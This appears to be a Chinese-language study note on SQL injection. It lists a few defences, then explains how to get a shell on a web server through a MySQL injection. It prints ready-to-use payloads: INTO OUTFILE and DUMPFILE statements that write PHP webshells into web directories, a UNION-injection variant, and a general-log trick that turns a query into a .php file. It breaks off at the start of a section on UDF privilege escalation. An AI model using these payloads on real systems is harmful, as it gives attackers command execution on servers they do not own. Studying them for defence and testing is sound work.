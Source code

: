 
### 防御

1. 参数化查询：MyBatis中的#{...}（动态化查询不能使用参数化查询）
2. 输入过滤
3. 最小权限原则
4. 关闭报错信息
5. 增加WAF

### 获取shell的方法

基本所有的方法都需要以下条件：

1. **足够高的数据库权限**：
    - MySQL: `FILE` 权限，甚至 `SUPER` 权限或 `root` 用户。
    - MSSQL: `sysadmin` 服务器角色。
    - Oracle: `DBA` 角色，以及对 `UTL_FILE`、`JAVA` 等包的执行权限。
2. **Web目录绝对路径**：写入Webshell的基础。可通过报错、漏洞探测、配置文件等获取。
3. **对Web目录的写权限**：数据库进程运行账户必须对目标Web目录有写入权限。
4. **特定的数据库配置**：
    - MySQL: `secure_file_priv` 设置必须允许向目标路径导出文件。
    - MSSQL: 相关存储过程（如 `xp_cmdshell`, `Ole Automation Procedures`）可能需手动开启。

1. MySql
    1. INTO OUTFILE/DUMPFILE 写入
        
        要求：`FILE`权限（通过`SELECT user, file_priv FROM mysql.user` 查询），secure_file_priv为空，绝对路径
        
        ```java
        -- 写入一个最简单的PHP Webshell
        SELECT '<?php @eval($_POST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
        
        -- 在联合注入中使用，需要确定列数
        UNION SELECT 1, '<?php system($_GET["c"]);?>', 3 INTO OUTFILE 'C:\\xampp\\htdocs\\shell.php'-- -
        
        -- 使用DUMPFILE（适用于写入二进制文件，或避免写入内容被转义/换行）
        SELECT '<?php system($_GET[“c”]);?>' INTO DUMPFILE 'D:/www/shell.php';
        ```
        
    2. **日志写shell**
        
        要求：管理员权限
        
        ```java
        1. 查看当前日志配置：SHOW VARIABLES LIKE '%general%’;
        2. 开启通用日志并设置日志路径为Web目录
        	SET GLOBAL general_log = 'ON';
        	SET GLOBAL general_log_file = '/var/www/html/shell.php';
        3. 执行一条“查询”，其内容就是Webshell代码
        	SELECT '<?php @eval($_POST[“a”]);?>';
        ```
        
    3. UDF提权
        
        利用MySQL的可扩展性，创建一个可以执行系统命令的自定义函数（UDF），然后通过调用这个函数来实现任意命令执行，从而提权。
        
        要求：
        